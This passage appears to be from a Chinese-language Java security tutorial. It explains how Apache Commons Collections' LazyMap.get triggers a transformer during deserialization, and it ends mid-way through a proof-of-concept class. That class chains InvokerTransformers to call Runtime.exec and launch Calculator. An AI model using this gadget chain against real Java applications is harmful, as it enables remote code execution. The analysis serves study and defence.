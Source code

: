 ```java
            throw new IllegalArgumentException("Factory must not be null");
        }
        this.factory = FactoryTransformer.getInstance(factory);
    }

    protected LazyMap(Map map, Transformer factory) {
        super(map);
        if (factory == null) {
            throw new IllegalArgumentException("Factory must not be null");
        }
        this.factory = factory;
    }

    public Object get(Object key) {
        // 如果key当前不在map中，则为key创建value
        if (map.containsKey(key) == false) {
            Object value = factory.transform(key);
            map.put(key, value);
            return value;
        }
        return map.get(key);
    }
}
```

在`LayzMap#get`方法中，先会对传入的 key 进行判断是否存在于`map`中，此处的`map`是父类`AbstractMapDecorator`中的成员变量，且用到了`transient`修饰符，意味着它不会参与序列化，也意味着在反序列化过程中`map`会为空，其中不会包含任何 key，这样就会顺利进入到 if 代码块中，而在其中有对`factory`的`transform`方法进行调用。

```java
public abstract class AbstractMapDecorator implements Map {

    /** The map to decorate */
    protected transient Map map;
    // ...
}
```

那么，当通过`LazyMap.decorate`方法传入一个恶意的`ChainedTransformer`对象作为恶意的`factory`，然后再调用`LayzMap#get`方法，最终就会触发恶意行为。

```java
package com.javasec.cc;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.util.HashMap;

public class LazyMapTest {

    public static void main(String[] args) {
        Transformer[] ts = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"open -a Calculator"})
        };
        Transformer tc = new ChainedTransformer(ts);
```
